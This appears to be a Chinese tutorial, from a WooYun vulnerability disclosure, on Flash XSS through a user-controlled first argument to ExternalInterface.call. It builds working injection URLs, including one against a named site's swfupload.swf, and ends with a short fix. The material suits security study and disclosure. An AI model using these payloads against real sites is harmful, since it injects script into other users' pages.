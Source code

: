 # 15\. Flash Xss 进阶 [ExternalInterface.call 第一个参数]

> 来源：[15\. Flash Xss 进阶 [ExternalInterface.call 第一个参数]](http://www.wooyun.org/bugs/wooyun-2010-016532)

## 简要描述

除了上一节讲到的 `navigateToURL/getURL` 之外呢，另一个经常存在 XSS 缺陷的 as 函数就是 `ExternalInterface.call`，此函数作为 FLASH 与宿主页面 javascript 通信的接口，一般来说，有“2”个参数，第一个参数为所调用 js 函数名，后续的其他参数则为所调用的 js 函 数的参数。那么在参数可控的情况下，不论是第一个参数或是后续参数可控，我们均能加以利用实现 XSS。本节先说一说第一个参数可 控的情况。

1\. 先从程序员的角度说下基础知识，有时候，我们需要在 FLASH 里调用当前页面中的 javascript 函数，例如：一个简单的需求，我们 要在游戏加载完成后，执行弹出 1 的操作。

javascript 代码: `alert(1)`

as 代码 `ExternalInterface.call("alert","1");`

2\. 有的程序员就会觉得，直接弹出 1 太丑了吧。于是他自己写个 js 的函数

```
function myalert(str){
    //显示一个漂亮的浮动层，并且把 str 显示在上面。
} 
```

然后在 as 里 `ExternalInterface.call("myalert","1");`

3\. 又有一天，另外一个程序员觉得上面那个程序员写的东西不错，但是他的 JS 函数名不叫 myalert，于是喊那个程序员改下 as 代码。 于是那个程序员觉得，免得以后老是有人喊我改代码，他就将代码写成了下面这个样子。

```
var func:String=root.loaderInfo.parameters.func; //接受 FLASH 所带的 func 参数 
ExternalInterface.call(func,"1"); 
```

[这样一来，其他想用这个 FLASH 的人，不需要修改 FLASH，只需要调用 FLASH 的时候带上参数即可。 比如我的 JS 函数是 newalert, 我只需要按照下面这么调用： [`some.com/xxx.swf?func=newalert`](http://some.com/xxx.swf?func=newalert)

4\. 上述过程提高了程序的可重用性，为开发人员带来了极大的便利，但是却是缺乏安全考虑的。 攻击者可以采用以下的方式来执行自己的代码

```
http://some.com/xxx.swf?func=(function({alert("hi jack")}) 
```

5\. 为了方便理解，我们可以将

```
ExternalInterface.call("函数名","参数 1"); 
```

看成 JS 里的

```
函数名("参数 1"); 
```

而 FLASH 里实际最后执行的 JS 代码，形式如下（至于下面这句哪里来的，暂时不表）：

```
try { flash toXML(函数名("参数 1")) ; } catch (e) { "<undefined/>"; } 
```

因而 函数名 部分也可以写为 `(function(){alert("hi jack")})` 的形式。

6\. 上面说的是理论基础，有了这个基础，我们来看实例，就比较简单了。 [`quan.qq.com/swf/swfupload.swf`](http://quan.qq.com/swf/swfupload.swf)

7\. 怎么反编译，见上一篇。我们来看怎么查找缺陷。

8\. 因为这是一个 AS3.0 的 FLASH 文件，我们首先确定 FLASH 是否有接受参数。 as3.0 接受参数的方法，所有参数存放在 `root.loaderInfo.parameters` 对象里。 例如 `aaa.swf?a=1&b=2&c=3` ,那么 `root.loaderInfo.parameters` 则等于

```
{ 
    "a":1,
    "b":2,
    "c":3
} 
```

9\. 我们可以定位到 movieName 变量

![image](img/Image_078.jpg)

可以看出，FLASH 的 movieName 参数，存放到了 this.movieName 中。

10\. 进一步， `this.movieName` 被带入了到了 `this.flashReady_Callback` 及其它变量。

![image](img/Image_079.jpg)

```
this.flashReady_Callback = (("SWFUpload.instances[\"" + this.movieName) + "\"].flashReady"); 
```

11\. 我们再进一步看看，`this.flashReady_Callback` 被用到了哪里。

![image](img/Image_080.jpg)

12\. 再接着看看调用 `this.flashReady_Callback` 的 Simple 函数是啥样子的。

![image](img/Image_081.jpg)

可以看到，最终这个参数被放到 `ExternalInterface.call` 的第一个参数中执行了。

13\. 是不是很激动。我们来假设一下，按下面调用 FLASH [`quan.qq.com/swf/swfupload.swf?movieName=aaaaaaaa`](http://quan.qq.com/swf/swfupload.swf?movieName=aaaaaaaa) 那么 `this.flashReady_Callback` 就等于以下内容。 `SWFUpload.instances["aaaaaaaa"].flashReady`

最终调用的是 `ExternalInterface.call('SWFUpload.instances["aaaaaaaa"].flashReady');`

14\. 如果我们要调用自己的 JS 代码，就需要构造闭合，但是你会发现有一定问题。。 我们最多能够造成下面的模样。

```
ExternalInterface.call('SWFUpload.instances["aaa"];
function SWFUpload(){};
SWFUpload["aaa"].flashReady'); 
```

但是这样是无法正确执行的，因为 `SWFUpload.instances` 没有被定义，从而 `SWFUpload.instances["aaa"]`会失败。

15\. 怎么办呢？这里就要拿出我们第 5 步里的知识了。我们把“函数名”换成 call 的第一个参数内容。变成下面的形式。

```
try { flash toXML(SWFUpload.instances["aaaaaaaa"].flashReady("参数 1")) ; } catch (e) { "&lt;undefined/&gt;"; } 
```

我们再基于以上代码来构造，

```
try { flash toXML(SWFUpload.instances["aaa"])}catch(e){alert(1)};//"].flashReady("参数 1")) ; } catch (e){ "<undefined/>"; } 
```

图片解析:

![image](img/Image_082.jpg)

```
try {
    flash toXML(SWFUpload.instances["aaa"]) //此行代码，因为 SWFUpload 未定义，出错，跳转到 catch 部分
}catch(e){
    alert(1); //这里将会被执行。
};
//"].flashReady("参数 1")) ; } catch (e) { "<undefined/>"; } 
```

16\. 最后，我们把构造的代码，放进 FLASH 的参数里

```
http://quan.qq.com/swf/swfupload.swf?movieName=aaa"])}catch(e){alert(1)};// 
```

可以看到成功执行 `alert(1)`

![image](img/Image_083.jpg)

修复方案：

对传入 call 的字符串进行判断或过滤操作。